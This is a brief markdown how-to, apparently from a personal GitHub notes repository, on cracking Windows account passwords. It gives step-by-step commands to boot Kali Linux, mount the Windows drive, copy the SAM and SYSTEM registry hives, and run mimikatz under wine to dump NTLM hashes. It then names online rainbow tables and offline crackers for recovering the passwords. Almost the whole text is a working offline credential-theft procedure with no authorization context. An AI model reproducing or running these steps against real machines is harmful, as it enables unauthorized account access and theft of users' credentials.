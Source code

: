 # Windows

## Cracking Windows Passwords

1. Boot into [Kali Linux](https://www.kali.org/) live CD
1. Connect to WiFi
1. Enable SSH:

   ```bash
   sudo systemctl enable ssh
   sudo systemctl start ssh
   ```

1. Set password for kali user:

   ```bash
   sudo passwd kali
   ```

1. SSH to the machine from local workstation
1. Mount the Windows filesystem

   ```bash
   sudo mkdir -p /mnt/windows
   sudo mount $(sudo fdisk -l | grep "Microsoft basic data" | awk '{print $1}') /mnt/windows
   ```

1. Extract SYSTEM and SAM files

   ```bash
   cp /mnt/windows/Windows/System32/config/SAM /tmp/SAM
   cp /mnt/windows/Windows/System32/config/SYSTEM /tmp/SYSTEM
   cd /tmp
   ```

1. Install `wine`

  ```bash
  sudo timedatectl set-timezone America/Detroit
  sudo timedatectl set-ntp on
  sudo apt update
  sudo apt install -y wine
  ```

1. Run `mimikatz`

  ```bash
  wine /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  lsadump::sam /system:/tmp/SYSTEM /sam:/tmp/SAM
  ```

1. There should be a line that says `User : ${USER}`, with a line below it saying `Hash NTLM: `. Grab this hash and use rainbow tables from [Crack Station](https://crackstation.net/) or hashcat, john the ripper, etc. to crack the hash.
